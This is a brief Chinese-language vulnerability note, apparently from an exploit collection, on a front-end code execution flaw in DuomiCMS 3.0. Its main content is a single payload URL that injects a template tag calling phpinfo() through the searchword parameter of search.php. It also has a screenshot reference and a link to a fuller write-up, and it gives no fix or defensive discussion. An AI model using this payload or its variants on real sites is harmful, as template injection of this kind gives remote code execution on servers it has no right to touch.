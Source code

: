 #### 漏洞详情： ####
 payload 如下：

    http://localhost/search.php?searchword={if:phpinfo()}phpinfo(){end

![](DuomiCMS3.0前台代码执行.assets/20180930142624-c113a95e-c479-1.png)

### 参考链接 ###
https://xz.aliyun.com/t/2828#toc-2
